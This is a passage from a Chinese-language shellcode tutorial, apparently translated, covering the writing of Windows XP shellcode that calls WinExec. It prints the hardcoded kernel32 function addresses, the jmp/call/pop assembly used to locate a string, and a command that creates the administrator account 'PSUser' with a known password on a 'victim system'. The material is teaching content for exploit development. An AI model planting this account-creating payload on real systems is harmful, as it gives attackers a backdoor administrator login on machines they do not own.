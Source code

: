 恭喜！你已经写出,编译,去除,格式化,同时已经测试了你的第一段shellcode代码!

现在让我们设计一些真正可以看的到的东西吧！

0x02 命令执行shellcode
=====

这个教程不过是第一个教程的扩展教程;

然而,除了设计简单地睡眠5秒的shellcode外,在受害者系统上它调用WinExec函数来创建一个新的有管理权限的用户.

这个教程也教你定义和定位字符串常量的方法.在这种情况下你想执行的字符串命令.也将干净利落地退出进程而不会产生一个core dump.

这个教程的一些内容是以在http://www.vividmachines.com/shellcode/shellcode.html中被摘取出的信息为基础而讲述的.

我们的目的

我们的shellcode将定位我们的命令行字符串并通过调用WinExec函数在受害者系统上创建一个本地管理用户.要提醒注意的是这个教程将会在你的系统上创建一个管理账户,所以记得删掉它否则你可能发现你已经因为这个账户的创建而被他人黑了.

我们需要什么函数,它们在哪?

从编程经历中（或至少是通过谷歌）,我们知道在一个windows系统上执行一个命令我们需要调用WinExec函数,同时为了干净利索地退出一个进程我们需要调用ExitProcess函数.这两个函数都可以在Kernel32.dll中被找到.

为了定位函数的地址,我们将使用arwin,正如我们在上一个教程中做的那样.如下所示：

> ./arwin.exe Kernel32.dll WinExec arwin - win32 address resolution program - by steve hanna - v.01     WinExec is located at 0x7c8615b5 in Kernel32.dll

WinExec函数位于Kernel32.dll中的0x7c8615b5地址上

> ./arwin.exe Kernel32.dll ExitProcess     arwin - win32 address resolution program - by steve hanna - v.01

ExitProcess位于Kernel32.dll中的0x7c81ca82地址上你得到的地址或许和我的不同.这取决于操作系统和服务包.我正使用WindowsXP SP2.这意味着你的shellcode将只会在相同的操作系统和你使用的服务包上正常工作因为我们已经硬编码了函数的内存地址.这甚至可能是因你已经安装了补丁文件而略有不同的.这是更高级的可以被用来动态定位Kernel32.dll和函数地址的技术;然而,那将会在之后的教程中细说.

定义并定位字符串常量

下面即是我们想在我们的shellcode中定义的字符串常量,我们将执行的命令来创建一个用户名是”PSUser”密码是”PSPasswd”的账户

>  'cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser'

下面小段代码示范了在我们的代码末尾定义一个字符串常量,同时在栈顶上定位字符串的方法;

```
+--------------- [snip] ---------------+
  jmp short GetCommand;Jump to where our string is located ("GetCommand" label below)
  CommandReturn:;Create a label we can call to return here.
  pop ebx;the "call" operation below has pushed its return address onto the stack, which we have designed to point to our string - so pop the address of the string off the stack and into ebx.
;At this point, ebx points to our string.
+--------------- [snip] ---------------+
GetCommand: ;Create the "GetCommand" label where our string is located
call CommandReturn ;"call" is like jump, but also pushes the return address (next instruction after call) onto the stack. Since our string is defined immediately after this instruction, the return address points to the address of our string.”call”
db "cmd.exe /c net user PSUser PSPasswd /ADD && net localgroup Administrators /ADD PSUser";Write the raw bytes into the shellcode that represent our string.        
db 0x00 ;Terminate our string with a null character.
+--------------- [snip] ---------------+

```
